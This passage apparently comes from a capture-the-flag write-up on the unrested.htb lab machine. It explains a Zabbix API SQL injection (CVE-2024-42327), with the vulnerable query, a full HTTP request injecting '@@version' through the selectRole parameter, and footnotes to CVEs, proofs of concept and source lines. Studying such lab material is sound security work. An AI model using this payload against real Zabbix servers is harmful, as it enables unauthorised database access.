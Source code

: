 where array of `selectRole` is being inserted in the select query and is imploded as a string.

After transformations the SQL query seems to be like:

```sql
SELECT u.userid, r.roleid, r.name, r.type, r.readonly
FROM users u, role r
WHERE u.roleid = r.roleid
AND u.userid IN …
```
{: .nolineno }

According to how it was implemented in the code, we can suggest the very classic SQL injection:

```bash
POST /zabbix/api_jsonrpc.php HTTP/1.1
Host: unrested.htb
User-Agent: curl/7.83.1
Accept: */*
Authorization: Bearer a327c118b37a32cb9fbbe1c80b01f8f9
Content-Type: application/json-rpc
Content-Length: 173
Connection: close

{"jsonrpc":"2.0"
,
"method":"user.get"
,
"params":{
            "selectRole": ["roleid, @@version"],
            "userids": ["1"]
        },
"auth":"a"
,
"id":1}

```
{: .nolineno }

That will transform the SQL query as following:

```sql
SELECT u.userid, r.roleid, @@version
FROM users u, role r
WHERE u.roleid = r.roleid
AND u.userid IN …
```
{: .nolineno }

Check response:


[^CVE-2024-36467]: [CVE-2024-36467 / ZBX-25614](https://support.zabbix.com/browse/ZBX-25614), 
[^privesc-poc]: PoC for CVE-2024-36467 / ZBX-25614
[^user-update]: Documentation on [user.update](https://www.zabbix.com/documentation/current/en/manual/api/reference/user/update)
[^CUser-checkHimself]: [function checkHimself](https://github.com/zabbix/zabbix/blob/7.0.0/ui/include/classes/api/services/CUser.php#L1109C2-L1120C9) 
[^usrgrpid]: [Documentation on usergroup object](https://www.zabbix.com/documentation/current/en/manual/api/reference/usergroup/object)
[^CVE-2024-42327]: [CVE-2024-42327 / ZBX-25623](https://support.zabbix.com/browse/ZBX-25623), [POC](https://github.com/compr00t/CVE-2024-42327/tree/main)
[^PoC-sql-my]: Proof Of Concept for CVE-2024-42327 / ZBX-25623 by mrlsecurity.
[^SQL-addRelatedObjects]: Github lines [3041-3051](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L3041C1-L3051C6)
[^user-get]: Call for addRelatedObjects in [user.get](https://github.com/zabbix/zabbix/blob/49955f1fb5c9168a8a24b053f7ade6b3d903143c/ui/include/classes/api/services/CUser.php#L234)
[^system-run]: Documentation on Zabbix [system.run](https://www.zabbix.com/documentation/current/en/manual/config/items/itemtypes/zabbix_agent#system.run)
[^hostid]: Documentation on Zabbix [hostid and interfaceid](https://www.zabbix.com/documentation/7.2/en/manual/api/reference/host/get?hl=host.get)
[^nmap-doc]: nmap [documentation](https://nmap.org/book/data-files-replacing-data-files.html)